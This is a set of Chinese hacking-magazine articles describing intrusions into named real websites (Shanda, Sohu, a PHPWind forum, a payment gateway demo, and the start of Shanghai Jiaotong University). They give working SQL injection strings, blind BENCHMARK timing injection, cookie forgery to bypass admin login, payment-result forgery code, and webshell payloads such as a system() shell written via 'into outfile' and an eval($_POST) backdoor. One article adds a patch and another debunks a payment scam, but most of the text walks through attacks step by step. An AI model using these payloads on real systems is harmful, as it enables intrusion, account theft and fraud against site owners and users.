适合读者：脚本爱好者，入侵爱好者

前置知识：PHP 基础

## 盛大官网大站注

文／图 Andyower


盛大，名如其名，在亚洲最有影响力的一个网络游戏公司，今天我们的任务就是测试一下它官方网站的安全性。

首先，打开盛大的官方网站 http://www.shanda.com.cn，最新的新闻都是在这里公布。随便点开一个新闻看看，如图1所示。

先判断是不是 4.0 以上的版本，在地址栏后面加：`and mid(version(),1,1)=4`，结果什么都没有显示，如图3所示。


直觉告诉我，有戏。按 Ctrl+n 打开一个新的窗口，如图2所示。

再看看是不是 3.0 的，在地址栏后面加：`and mid(version(),1,1)=3`。结果出现正确的页面，说明盛大的 MySQL 数据库版本是 3.0，不支持 union 查询。看来只能用下一招了：使用 PHP 文件读取器。如图4所示，是 PHP 文件读取器的主界面。


怎么样？看见链接了吧，随手在后面加上 `and 1=1`，结果显示正常页面；在后面加上 `and 1=2`，什么都不显示。好的，确定有注入。再随便加个 `'` 号，结果什么都不显示，看来已经关了错误回显。既然是 PHP 注入，第一步要确定的是 MySQL 的版本。接下来才会知道应该怎么做。如果 MySQL 版本是 4.0 以上的，那就很方便了，可以用 union 查询。如果是 3.0，那就相对麻烦一些，但还是有办法的。

这个工具可以读取任何对方主机上存在的文件，前提是知道文件的绝对路径。经常用注入工具的朋友，对“判断字符串”这里要填什么不会陌生。之前我也没有检测盛大用的是什么系统，不过一般来说，大网站如果用 PHP，那么多半都是 Linux 系统的，至少我没有见过有哪个大网站用 PHP，然后用 Windows 做服务器的。这也算是一点点没有理由的经验吧。

以下是我入侵时填写的东西：判断字符串填的是 `50504740`，因为打开注入页面时，会有“50504740”这串字符。在“远程文件地址”按默认，因为要确定一个网站连接的 MySQL 是以什么账号连接的，如果确实有这个文件，但是又不能读取，说明没有 `load_file` 的权限。然后点击慢速读取，慢慢等吧。结果运气真好，跳出了这个对话框，如图5所示。


图5

“`/etc/passwd`”可读，看来估计多半是以 ROOT 账号连接了。慢慢等吧，看看有什么好东西出现，没多久，结果出来了。如图6所示。

```text
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:
daemon:x:2:2:daemon:/sbin:
adm:x:3:4:adm:/var/adm:
lp:x:4:7:lp:/var/spool/lpd:
...
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
www:x:504:504::/home/www/htdocs:/bin/bash
...
```

图6

内容真多，看得我头大。进入网站后台，其他的对我并不重要，一眼就看见了这条信息：`wxs:x:508:504::/home/www/htdocs/shanda/51Web:/sbin/nologin`。估计多半是 Web 的路径了。如果是的话，可以看它 PHP 程序的源代码，剩下的什么都好说了。马上测试，“`/home/www/htdocs/shanda/51Web`”是不是 Web 路径，先在浏览器上输入 `http://shanda.com.cn/51Web/`，看看这个路径有没有结果，发现是存在的。如图7所示。

很好！看来“`/home/www/htdocs/shanda/`”很可能就是盛大官方网站的 Web 路径了，但这样还是不够，还要用 phprf 文件读取器确定一下，看看能不能读取其中的 newspage.php 文件。这次在 phprf 文件读取器的“远程文件地址”栏里填写：`/home/www/htdocs/shanda/newsphp/newspage.php`。如果可以正确读取，说明“`/home/www/htdocs/shanda/`”绝对是网站的 Web 绝对路径。把参数设置好，再次读取，结果如图8所示。运气真好。盛大，哈哈，我来了。从这个时候开始，我开始整理思路。


图7


图8

因为有几种方法可以先把 MySQL 的 ROOT 密码读取出来：先读取“`/home/www/htdocs/shanda/newsphp/newspage.php`”文件，看看里面有没有包含 ROOT 的密码；如果没有，再读取“`/home/www/htdocs/shanda/newsphp/newspage.php`”所包含的文件，读取出来；如果再找不到，就直接读取首页的 PHP 文件，一定可以找出来的。但是密码似乎也没有什么用，因为先前我已经进行过一次端口扫描，服务器就只开了 80 端口，其他端口都被过滤。暂时来说，要 MySQL 的 ROOT 密码没有什么用。再加上 phprf 文件读取器虽然是多线程，但是速度还是很慢，放弃这条路，浪费时间。

第二条路，直接找网站的后台，然后读取验证管理员登录的文件，分析验证方式，看看有没有缺陷，有的话可以直接把密码破解出来。如果没有，读取 MySQL 的安装位置，进行 MySQL 的跨库攻击，一定可以拿到管理员密码，因为现在什么文件都可以读。

好的，先进行找后台，使出十八般武器一顿狂扫，半个多小时都过去了，还是不见后台的踪影。正在郁闷当中，无意中在浏览器上输入 `http://www.shanda.com.cn/newsphp/`，居然直接跳出后台的登录界面。如图9所示。


真是踏破铁鞋无觅处，得来全不费工夫，浪费我那么多时间，原来就这么简单，这个时候真是不知道应该笑还是哭。算了，要当黑客如果一点耐心都没有，那怎么混嘛。重整旗鼓，随便输入一个账号密码登录，主要想知道网站是用什么文件验证账号密码的，如图10所示。


图10

原来是用 `chklog.php` 这个文件进行验证，不用多说了，拿出 phprf 文件读取器，在“远程文件地址”那填入 `chklog.php` 的绝对路径：`/home/www/htdocs/shanda/newsphp/chklog.php`，进行读取，抽根烟慢慢等吧，终于结果出来了。郁闷，那么大的网站居然用了那么简单的方法进行管理员身份的验证。这种验证的存在使得完全不需要知道管理员的账号密码就可以登录。以下是有用的代码并加上注释。

```php
<?
include("include/c_MYSQL_db.inc.php");
include("include/c_check.inc.php");
$DB = new c_MYSQL_db();
$sql = "select Account from Account where Account='$account' and Password='$password'";
$rs = $DB->query($sql); // 把输入的账号密码进行数据库查询
$DB->logoff();          // 结束数据库查询
if (count($rs)!=0) {    // 如果返回结果数不等于0，也就是说输入的账号密码正确
  $aduser = $rs[0][0];
  setCookie("LoginSign", "HaveRights", time()+3600); // 设置Cookie
}
?>
<script>
window.location='newsmain.php'; // 进入后台管理界面
</script>
```

看见了吧？关键是 `setCookie("LoginSign", "HaveRights", time()+3600)`，如果输入的账号密码正确就设置 Cookie，让 `LoginSign=HaveRights`。也就是说，只要我们伪造 Cookie，让 `LoginSign=HaveRights` 就行，理论上就可以进行后台编辑了。至于怎么伪造，方法也有很多。

当 `setCookie` 在 PHP 代码中执行以后，查看 Cookie，会发现内容是 `LoginSign=HaveRights`，只要把 Cookie 伪造成一模一样就可以了。这时候在浏览器上输入 `javascript:alert(document.cookie)`，然后按回车，如图11所示。


图11

看见没有，当前网站的 Cookie 就显示出来了。在浏览器上输入的 JavaScript 语句是可以直接执行的。当然也可以修改当前网页的各种元素，因为 JavaScript 可以控制页面中的所有元素。不废话了，下面看看我怎么直接伪造 Cookie：在浏览器上直接输入 `javascript:alert(document.cookie='LoginSign=HaveRights')`，回车，然后再用 `javascript:alert(document.cookie)` 查看当前 Cookie，会发现 Cookie 已经改变，如图12所示。


图12

Cookie 已经伪造成功，在先前 `chklog.php` 的代码中有以下代码：

```html
<script>
window.location='newsmain.php';
</script>
```

也就是说 `newsmain.php` 是后台的主页面，既然已经伪造 Cookie 成功了，在浏览器上直接输入 `http://shanda.com.cn/newsphp/newsmain.php` 就可以不需要任何密码进入后台进行任何操作。如图13所示。


图13

看见了吧，已经进去了，如果是比较懒，就添加一个新闻，或者为了避免怀疑，直接修改以前管理员添加的新闻。然后往里面写入网页木马了。往网页中添加木马，这以前《黑防》都有介绍，在这里就不多说了。如果在盛大上挂马，那破坏力是多么惊人的，谁会想到一上盛大的官方站就会中什么传奇木马等等之类的，这个时候账号密码想不丢都难。如果进行下一步的渗透也很简单，毕竟 MySQL 的 ROOT 权限太大了，想做什么都可以，拿下整个服务器也只是时间的问题。希望以后盛大不会再犯同样的毛病，这种网如果被人恶意利用造成多大的损失是可想而知的。

## 揭穿网银在线支付漏洞骗局

- 适合读者：脚本爱好者
- 前置知识：网银支付流程了解


文/图 lllkz

网上沸沸扬扬流传着网银、云网等在线支付系统漏洞的利用动画，弄得人心惶惶，不少人因此而上当受骗。到底支付系统是否存在安全隐患，在这里通过给大家重现整个支付过程来揭穿这个骗局。

通常网上支付流程如图1所示。


其中几个重要的环节如下：

1. 网上消费者浏览检索商户网页
2. 网上消费者在商户网站下订单
3. 由相关银行（银联）检查网上消费者的支付能力，实行冻结、扣账或划账，并将结果信息传至支付平台
4. 支付平台将支付结果通知商户
5. 支付成功的，由商户向网上消费者发货或提供服务，并通知商城

支付的基本流程就是如此。注意，支付过程中传输的数据一般是通过 MD5 加密的，传输的数据格式因支付接口不同而不同。现在以网银在线的支付接口为例子来说明。

其中确认支付的文件 `receive.asp` 内容如下：

```asp
<!--
* Receive.asp 由网银在线技术支持提供
* 本页面为支付完成后获取返回的参数及处理。
-->
<!--#include file="MD5.asp"-->
<%
```

提取表单参数：

- `v_oid`：商户发送的 `v_oid` 订单编号
- `v_pmode`：支付方式（字符串）
- `v_pstatus`：支付状态（20=支付成功，30=支付失败）
- `v_pstring`：支付结果信息（成功或失败原因）
- `v_MD5str`：MD5 校验串
- `v_amount`：订单实际支付金额
- `v_moneytype`：订单实际支付币种
- `remark1`：备注字段1
- `remark2`：备注字段2
- `key`：私钥值（商户自行设定）

```asp
v_oid=request("v_oid")
v_pmode=request("v_pmode")
v_pstatus=request("v_pstatus")
v_pstring=request("v_pstring")
v_amount=request("v_amount")
v_moneytype=request("v_moneytype")
remark1=request("remark1")
remark2=request("remark2")
v_MD5str=request("v_MD5str")
key="test"
if request("v_MD5str")="" then
  response.Write("v_MD5str: 空值")
  response.end
end if

'MD5校验
text=v_oid&v_pstatus&v_amount&v_moneytype&key
MD5text=Ucase(trim(MD5(text)))
if MD5text<>v_MD5str then
  response.write("MD5 error")
else
  ' 逻辑处理
  if v_pstatus=20 then
    ' 支付成功
  else
    ' 支付失败
  end if
end if
... end if
end if
%>
```

> 仅对校验码校验通过不表示支付结果成功，只表示该信息由网银传回并校验成功。需对 `v_pstatus` 参数做判断：`20` 表示支付成功，`30` 表示支付失败；涉及实时售卡时还应校验返回金额与数据库原始金额一致。

```asp
<!--
以下是打印出所有接收数据的结果...
-->
<table width="93%" border="0">
<tr>
<td>
<p><b><font color="#FF0000">提示：</font></b> 您网上在线支付情况反馈如下：</p>
<p>此次交易编号：<%=v_oid%></p>
<%if v_pstatus=20 then ... elseif v_pstatus=30 then ... end if%>
<p>支付代码号：<%=v_pstatus%></p>
<p>在线支付结果：<%=v_pstring%></p>
<p>您所使用的卡为：<%=v_pmode%></p>
<p>传输来的校验码：<%=v_MD5str%></p>
<p>加密后的值：<%=MD5text%></p>
<p>v_amount: <%=v_amount%></p>
<p>v_moneytype: <%=v_moneytype%></p>
</td>
</tr>
</table>
```

我们使用表格形式生动展现这些数据，如表1所示。

| 变量名称 | 变量名 | 返回值说明 |
|---|---|---|
| 订单编号 | v_oid | 商户发送的订单号 |
| 支付状态 | v_pstatus | 20（支付成功）/30（支付失败） |
| 支付结果信息 | v_pstring | 支付完成/支付失败 |
| 支付方式 | v_pmode | 支付银行（如工商银行） |
| 订单MD5校验码 | v_MD5str | 按 `v_oid,v_pstatus,v_amount,v_moneytype,key` 顺序拼接并 MD5 加密 |
| 订单总金额 | v_amount | 实际支付金额 |
| 币种 | v_moneytype | 实际支付币种 |
| 备注字段1 | remark1 |  |
| 备注字段2 | remark2 |  |

表1

其中变量除了 `key` 外，其他变量均可被提交内容控制。如果网银在线设置的 `key` 或 MD5 私钥泄露，恶意用户可伪造支付数据，绕过网关并直接支付成功。

在支付流程中，选择银行网关接口前一般会有如下信息。

```html
<input type='hidden' name='v_MD5info' value='...'>
<input type='hidden' name='v_mid' value='4405'>
<input type='hidden' name='v_oid' value='OP20051226162853'>
<input type='hidden' name='v_amount' value='34.31'>
<input type='hidden' name='v_moneytype' value='0'>
<input type='hidden' name='v_url' value='http://www.xxx.org/Result.asp'>
```

`v_mid` 为商户号，`v_oid` 为订单号，`v_amount` 为金额，`v_moneytype` 为币种（0为人民币），`v_url` 为支付结果返回页。`v_MD5info` 由 `v_amount&v_moneytype&v_oid&v_mid&v_url&key` 计算 32 位 MD5，用于防篡改。

| 变量名称 | 变量名 | 长度 | 说明 | 样例 |
|---|---|---:|---|---|
| 商户编号 | v_mid | 4 | 商户编号，不可为空 | 1001 |
| 订单编号 | v_oid | 64 | 订单号标准格式（日期-商户号-流水号） | 订单号示例 |
| 订单总金额 | v_amount |  | 单位元，小数点后两位 | 13.45 |
| 币种 | v_moneytype |  | 0为人民币，1为美元 | 0 |
| URL地址 | v_url |  | 支付成功后返回页面，需以 `http://` 开头 | http://domain/program |
| MD5校验码 | v_MD5info | 64 | 详见 MD5 说明 |  |

表2

通过这些信息和 MD5 密钥可伪造网银返回的支付结果。为完整展示流程，需要编写构造恶意支付数据的工具。

## 核心函数

```cpp
void CMyDlg::OnPayonline()
{
    UpdateData(TRUE);
    CString strSend="";
    strSend.Format("v_oid=%s&v_pstatus=20&v_amount=%s&v_moneytype=%s&v_MD5str=...", ...);
    CString strMD5="";
    strMD5 = m_oid + "20" + m_amount + m_type + m_key;
    char buffer[255]={0};
    MD5String((unsigned char*)strMD5.GetBuffer(0), buffer);
    strupr(buffer);
    strSend += buffer;
    ::ShellExecute(NULL,"open",strSend,NULL,NULL,SW_SHOW);
}
```

编译运行如图2所示，其中的各个参数除了 `v_MD5info` 和 `key` 外，都可以在支付流程中轻松获得。关于 `key` 的获得，我们是不可能在支付流程中获得的，所以也就不存在所谓的支付系统的漏洞了。


图2

也许这时就有人问了，网上流传的对华夏黑客同盟的支付漏洞利用动画是怎么回事？那其实是利用了动易系统 2005 SP2 的一个注入漏洞从而得到了数据库中的 MD5 私钥。关于动易系统将支付密钥放到数据库中的安全隐患，早在几个月前我就给 webboy 谈过，当时并没有引起他们的重视，希望通过这次演示，能引起他们的注意。不仅动易系统，很多电子商务的整站系统，为了追求 MD5 私钥的方便设置和修改，都把它们放在数据库中存放。使用这种方法，网站一旦出现脚本漏洞或者其它引起数据库信息泄露的漏洞，很容易使攻击者轻松获得支付密钥，从而给网站带来巨大的经济损失。但是如果我们把支付密钥作为常量定义在程序中，攻击者获得密钥的难度就相当高了，这一般需要攻击者获得一个 WebShell 才有这样的权限。废话少说，我们来演示一下。

首先通过动易最新版的漏洞获得网站设置的 `key`，如图3所示。


图3

得到的官方支付密钥是 `ilovepowereasyforever`。作为演示，我这里填 1 元，到这里，如图4所示。查看源文件得到如下的信息。

```html
<input type='hidden' name='v_MD5info' value='A144E7736B2ED5CFB331BA7D1B0AC57A'><input type='hidden' name='v_mid' value='11827'><input type='hidden' name='v_oid' value='OP20051226215025'><input type='hidden' name='v_amount' value='1.01'><input type='hidden' name='v_moneytype' value='0'><input type='hidden' name='v_url' value='http://www.asp163.net/Shop/PayResult.asp'>
```

将得到的信息填写到工具上，如图5所示。确认后我们就可以支付了，如图6所示。看到了吗，我们支付成功了！登录用户后台商城管理“在线支付查询”会有如下的信息表示我们确实支付成功了，如图7所示。


图4


图5


图6


图7

一般情况下，由于无法获得网站管理员设置的支付密钥，所以在线支付系统并没有什么漏洞可言。但一些别有用心的人，却使用这些伎俩造谣欺骗！不过这却给电子商务网站系统的安全建设敲响了警钟，一旦密钥泄露，后果不堪设想。有过电子商务编程经验的人都知道，一般在线售卡系统存储在数据库中的卡号密码信息是加密的，不要认为这样就万事大吉了；殊不知只要密钥泄露，同样损失惨重。由于本程序利用有一定的危险性，请大家谨慎使用！

WTF：PHPWind 是由国人开发的一套基于 PHP+MySQL 的论坛系统，由于出色的性能和美观的界面以及众多的插件支持赢得了普遍赞誉，并且它的安全系数也比基于 ASP 的大多数论坛高。然而再安全的系统也会有漏洞，只是取决于你能不能发现。

- 适合读者：脚本爱好者
- 前置知识：PHP 基本语法

## PHPWind 跨站注入

### 双重漏洞


文／图 狐烟逐云（江苏大学信息安全系）

闲的时候下了一份 PHPWind 的源码仔细阅读……代码给人的感觉十分严谨，然而可读性却不怎么样，我读起来非常费劲，导致我找漏洞浪费了很多时间。

- 漏洞文件：`register.php`、`sendpwd.php`
- 影响版本：PHPWind 4.0.1—4.3.2
- 测试版本：PHPWind 4.0.1
- 测试环境：Windows XP Professional SP2 + MySQL

### 重要的跨站

跨站的问题出在注册页面 `register.php` 中，从 123 行开始，代码如下：

```php
$rg_name = Char_cv($regname);
$regpwd  = Char_cv($regpwd);
$rg_pwd  = md5($regpwd);
...
if(strlen($rg_introduce)>200) Showmsg('introduce_limit');
if($rg_sign != ""){
    if(strlen($rg_sign)>50){
        $gp_signnum=50;
        Showmsg('sign_limit');
    }
}
require_once(R_P.'require/bbscode.php');
$lxsign=convert($rg_sign,$db_windpic,2);
...
if(@include_once(D_P.'data/bbscache/wordsfb.php')){
    if($wordsfb){
        foreach($wordsfb as $key => $value){
            if(strpos($rg_sign,(string)$key)!==false){
                $banword = $key;
                Showmsg('post_wordsfb');
            }
        }
    }
}
```

```php
if(strpos($rg_introduce,(string)$key)!==false){
    $banword = $key;
    Showmsg('post_wordsfb');
}
...
if(strpos($regpwd,"\r")===false || strpos($regpwd,"\t")===false ... ){
    Showmsg('illegal_password');
}
if(empty($regemail) || !ereg("...",$regemail)) {
    Showmsg('illegal_email');
} else {
    $rg_email=$regemail;
}
$rs = $db->get_one("SELECT COUNT(*) AS count FROM pw_members WHERE username='$rg_name'");
if($rs['count']>0){ Showmsg('username_same'); }
...
$rg_sex=$regsex ? $regsex : '0';
$rg_birth=...
$rg_oicq=...
$rg_homepage=...
$rg_from=...
```

其中的 `Char_cv` 函数负责对用户提交的数据进行特殊字符的过滤，函数的代码如下：

```php
function Char_cv($msg){
    $msg = str_replace("\t","",$msg);
    $msg = str_replace("<","&lt;",$msg);
    $msg = str_replace(">","&gt;",$msg);
    $msg = str_replace("\n","<br />",$msg);
    $msg = str_replace("  ","&nbsp;",$msg);
    return $msg;
}
```

不知大家发现没有，几乎所有的关键字都被过滤了，跨站从何而来？戴着眼镜的同志请扶好眼镜，因为接下来发生的事也许会让你把眼镜摔坏。跨站就出现在对个人主页的过滤不完全上……

```php
$rg_homepage = $reghomepage ? $reghomepage : '';
$rg_homepage = Char_cv($reghomepage);
```


漏洞出现了，不过只有版主以上的用户才有看个人资料的权利，所以此漏洞利用起来还是比较困难的。然而我们可以将此漏洞配合下面介绍的注入漏洞一起使用……

## 百密一疏的注入

问题出现在 Sendpwd.php 取回密码页面，它没有对用户提交的 `pwuser` 变量进行充分的过滤，因此有可能直接威胁到整个服务器的安全，出现问题的代码如下：

```php
require_once('global.php');
require_once(R_P.'require/header.php');
if ($action == 'sendpwd') {
    list(,,$othergd)=explode("\t",$db_gdcheck);
    if (!$_POST['step']) {
        require_once(PrintEot('sendpwd'));footer();
    } elseif ($_POST['step'] != 2) {
        $othergd && GetCookie('cknum')!=md5(D_P.$gdcode) && Showmsg('check_error');
    }
}
```

```php
$userarray = $db->get_one("SELECT password,email,regdate FROM pw_members WHERE username='$pwuser'");
// 非常明显没有对 pwuser 变量过滤就放入了查询中
if ($userarray['email'] != $email) {
    Showmsg('email_error',1);
}
```

问题出现在这里：`$db->get_one("SELECT ... WHERE username='$pwuser'")`；这是一个十分明显的注入点。由于页面本身对用户名有 16 字节限制，因此在测试时可先保存整个 HTML 页并修改源码。

```html
<FORM action=/sendpwd.php? method=post>
<INPUT type=hidden value=2 name=step>
<TABLE cellSpacing=1 cellPadding=3 width='98%'>
...
<INPUT size=160 name=pwuser>
<INPUT size=16 name=email>
</TABLE>
</FORM>
```


我想常看黑防的读者应该对 PHP+MySQL 架构下的注入不陌生了。这里需要使用盲注（Blind Injection）在错误回显关闭时判断语句真假，我们需要用到 MySQL 的 BENCHMARK 函数。

> **BENCHMARK(count, expr)**：函数重复 `count` 次执行表达式 `expr`，可用于评估 MySQL 处理表达式的耗时。


聪明的你应该想到办法了，不错，就是通过暴力运算打一个时间差，进行返回结果正确与否的判断。这不是什么新技术，国外早在几年前就已经开始利用了，黑防 2004 年也有介绍这样的文章，当然 MSSQL 中也有这样的技术。

```
admin' UNION SELECT IF (SUBSTRING(password,1,1)=CHAR(53), BENCHMARK(1000000,MD5(CHAR(1))), null),1,1 FROM pw_members WHERE uid=1/*
```

假如 Admin 密码第一位是 5，我们就执行一百万次 MD5 加密运算，返回结果其实并不重要。如果猜测正确，IE 会出现明显停顿。假如你觉得效果还不明显只要增加次数就可以了，如图3所示。


反之如果错误则会立刻返回结果。这是比较严重的漏洞，理论上可以获得论坛所有用户的 MD5 Hash，但在利用此漏洞的时候请注意服务器的运算能力。

上文说道，我们可以把两个漏洞联系起来使用，它的前提条件是：知道目标 Web 目录的绝对路径。我们可以构造语句如下：`' union select 1,2,site from pw_members where username='asdf' into outfile 'c:\\inetpub\\wwwroot\\1.php'/*`，这样就获得了一个 WebShell。

想获得 Shell 以及密码 hash 还有一个必要条件，就是 `magic_quotes_gpc = Off`（该选项可自动转义引号等特殊符号）。如果服务器返回“查询的用户名不存在”或者前面多了斜杠就基本没戏了。希望厂商朋友尽快堵住此漏洞，如图4、图5所示。

在实际利用中我们发现 `site` 字段有大小限制，所以只能提交一些非常简陋的 Shell，因此跨站利用代码不能太长。示例：`<?PHP Echo '<pre>';$cmd=$_GET[cmd];system('$cmd');echo '</pre>';?>`。


PHPWind 论坛的 MD5 hash 长度是 32 位，手工猜测十分费力。为此我写了一个 Exploit，以便提高猜解效率，如图6所示。


程序采用 C++ SDK 编写，通过对目标提交畸形请求，根据 send 函数和 recv 函数返回的时间差进行判断是否猜对，具体代码请参见光盘。

## 无奈的解决方案

在 `$userarray = $db->get_one("SELECT password,email,regdate FROM pw_members WHERE username='$pwuser'");` 之前添加如下代码：

```php
$S_key = array('\\',"'",'&',';','"','/','*','`','<','>','\r','\n','#','(',')');
foreach($S_key as $value){
    if (stripos($pwuser,$value)!==false){
        echo "非法的用户名!";
        exit;
    }
}
```

终稿时我下载了 PHPWind 4.3.2 的代码，发现也存在同样的问题。希望正在使用此论坛的用户尽快打好补丁。

WTF：Sohu.com 是国内著名的门户网站，提供了包括邮箱在内的很多服务，相信读黑防的朋友没有不知道的吧？这么大的一个网站，难免不出一些纰漏。俗话说服务越多越不安全，无论是对于服务器还是网站都是这个道理。

- 适合读者：网络爱好者、入侵爱好者
- 前置知识：脚本入侵知识

## PHP注入搞定 Sohu.com


文/图 剑心

最近学习 MySQL 注入，于是顺便就对 Sohu.com 做了一次小小的安全检测，看看它是否存在 SQL 注入漏洞。去 Sohu.com 的主站看了一下，发现差不多都是静态页面，我只得放弃了在主站上找问题的想法。直接在 Sohu.com 的各个分站上浏览了一圈后发现，大部分网站采用的都是 PHP 脚本，也有少数用的是 JSP 脚本。根据经验我们知道，对于 PHP 构建的系统，一般后台数据库都是 MySQL。由于 PHP 的特性，字符型参数较难注入，通常更容易在数字型参数中发现问题。

根据平时注入知识，我们知道 `id=XXX` 这样的形式在传递参数时一般都是数字类型变量，所以我们只要去测试那些 `php?id=XXX` 的链接就有可能找到漏洞。因为 PHP 特性，`'` 常被转义，而数字型参数常可直接参与 SQL 语句执行，这就是常见的 SQL 注入入口。


### 测试

通过一番仔细的搜索，还真让我在 `XXX.it.Sohu.com` 上找到了一个存在问题的链接：`http://XXX.it.Sohu.com/book/serialize.php?id=86`。提交 `...id=86 and 1=1/*` 返回正常；再提交 `...id=86 and 1=2/*` 返回无信息。由此可推测注入存在，因为两个条件都被作为 SQL 语句处理。


继续探测数据库类型与连接权限，提交：`http://XXX.it.Sohu.com/book/serialize.php?id=86 and ord(mid(version(),1,1))>51/*`，返回正常（如图3）。这表示数据库版本首字符 ASCII 值大于 51，可判断版本在 4.0 以上，支持 Union 查询。


> 小提示：该语句用于判断数据库版本是否高于 3（ASCII 51）。若结果为真，可推断数据库支持 Union 查询。

既然支持 Union 查询，我们就先把字段数暴出来。提交 `http://XXX.it.Sohu.com/book/serialize.php?id=86 order by 10/*`，返回结果正常，说明字段数大于等于 10，便于后续注入利用。

继续提交 `http://XXX.it.Sohu.com/book/serialize.php?id=86 order by 20/*` 结果依然正常返回。提交 `http://XXX.it.Sohu.com/book/serialize.php?id=86 order by 30/*`，结果到 `order by 50` 的时候返回没有信息了。看来它是大于 40，小于 50 的。

```sql
http://XXX.it.Sohu.com/book/serialize.php?id=86 order by 45/*
http://XXX.it.Sohu.com/book/serialize.php?id=86 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41/*
```

成功了，哪些字段会在页面显示也是一目了然，现在让我们继续进行下去。


```sql
http://XXX.it.Sohu.com/book/serialize.php?id=86 and 1=2 union select 1,user(),3,4,database(),6,7,8,9,10,version(),12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41/*
```


现在我们就完成了对数据库系统的探测。因为我们有可能不是 Root 权限，并且数据库服务器同 Web 服务器不在一台主机上。这样我们就没有 File 权限了。

```sql
http://XXX.it.Sohu.com/book/serialize.php?id=86 and (select count(*) from mysql.user)>0/*
```


看来没有对 MySQL 的读取权限，这更使我确定权限不是 Root。尽管不是 Root，也不要气馁，让我们继续吧！

在进一步猜测数据之前我们最好先找到后台，因为很多时候我们可能找到了管理员密码……却找不到地方登录。在根目录下加上 `/admin` 和 `/manage` 等后台常用地址，结果都返回 404 错误。猜测了几次终于在 `/book/` 目录下加上 `/admin` 时出现了 403 Forbidden 错误。

不过既然知道有个 admin 也不错，用黑防 VIP 视频教学里讲的 Google 黑客大法，去 Google 里搜索 `admin site:Sohu.com`，如图7所示。


从 Google 我们得到了 Sohu 的另一分站的论坛。因为人具备惰性，所以一般来说，分站后台的特征就很可能是整个网站的特征。当我尝试访问 `/book/admin/admuser.php` 时奇迹果然出现了，如图8所示。


看来我们离成功非常近了。从这里，我们还可以获得一些重要信息：查看源文件，可以发现登录表单名是 `name` 和 `password`，这很容易推测出对方管理员表中的结构，下面继续注入。

```sql
http://XXX.it.Sohu.com/book/serialize.php?id=86 and 1=2 union select 1,user(),3,4,database(),6,7,8,9,10,version(),12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41 from admin/*
http://XXX.it.Sohu.com/book/serialize.php?id=86 and 1=2 union select 1,user(),3,4,database(),6,7,8,9,10,version(),12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41 from user/*
http://XXX.it.Sohu.com/book/serialize.php?id=86 and 1=2 union select 1,name,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41 from user/*
http://XXX.it.Sohu.com/book/serialize.php?id=86 and 1=2 union select 1,password,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41 from user/*
```

里第一个用户的密码。那么他的用户名是什么呢？我猜测了很多字段都返回错误。实在没有办法了，就输入一个 ID，居然返回成功了！ID 就是管理员的名字，提交 `http://XXX.it.Sohu.com/book/serialize.php?id=86 and 1=2 union select 1,password,3,4,id,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41 from user/*` 返回结果如图10所示。


看看，得到管理员的名字了！激动地拿着管理员用户名和密码去后台。如图11所示。


现在该想想如何拿 WebShell 了：在后台发现有上传图片的地方，但上传 PHP 文件时会提示“不是图片文件”。继续在后台摸索，找到一个生成 PHP 文件的功能，于是在里面插入了一句话的 PHP 后门 `<? eval($_POST[a])?>`，如图12所示。点“生成”之后就提示成功了，用一句话后门连上去，如图13所示。


### 总结

脚本检测到此圆满完成。在得到 WebShell 后我上服务器上看了看，发现服务器的安全做得不错，执行不了命令，并且基本上除了我们刚才上传的目录之外都是不可写的，不过作为脚本测试，得到了 WebShell 也就算成功了吧。从这里也可以看出，小小的一个参数没有过滤就可以导致网站的沦陷。网站越大，参数越多，我们更加需要注意过滤方面的问题。欢迎大家到黑防论坛讨论，我的 ID 是剑心。

- 适合读者：网络爱好者、入侵爱好者、脚本爱好者
- 前置知识：无

## 手工入侵

## 上海交通大学


文/图 小奸

### 引子

### 踩点

前不久，我一个朋友被公司派到上海交大的信息安全工程学院进修，老在我面前炫耀。看着他那得意的样子，咱心里很不爽。于是我今天决定对上海交大的安全性进行一次检测，其结果让我大跌眼镜。

### 1. 分析网站

大都装有 IDS、防火墙一类的硬件设备，毕竟人家交大财大气粗。

利用服务器的漏洞来攻击目前已经不流行了，特别是“冲击波”病毒后，绝大多数网站管理员都知道要及时去下载补丁，而且大型网站绝对有硬件防火墙。就算有漏洞也基本上被它屏蔽了。更重要的是如果我用扫描器扫描的话，IDS 会报警，到时候偷鸡不成反蚀把米。基于这两个理由，我决定放弃从服务器入手这条路。

从上海交大的网站来想办法，先看看它的网站（www.sjtu.edu.cn）再说。对玩黑的朋友来说时下最流行的是脚本攻防，当然我也不例外了。既然是网站自然要和脚本打交道，所以这次入侵我也就把脚本攻击列为重点。俗话说得好，树大招风，对于这么流行的黑客技术，目前也越来越受到管理员的关注，对付的办法也越来越多了，比如装一个蜜罐系统。对付此类系统的办法就是手工攻击，不用工具。另外脚本攻击还有一个非常好的优点，就是防火墙和 IDS 之类的软件对此类攻击毫无办法，因为大多数防火墙是工作在网络层的，而脚本攻击是基于应用层的。

基于以上考虑，我决定以手工入侵为主。其实手工和工具的效果一般都差不多，用手工的缺点是效率太低，优点是准确性比较高，而使用工具经常会发生各种意外。另外手工的隐蔽性也更高，只有查看日志时才会发现，如果将日志删除，一般就很难查到了。用工具注入虽然快，但对于这样的名牌大学我担心会有所防范，一用工具可能就会报警。

手工注入的第一步就是查看网站所有的 URL 地址。根据以前玩注入的经验，一般都可以感觉出哪里会有漏洞。说了这么多的理论，现在开始实践了。

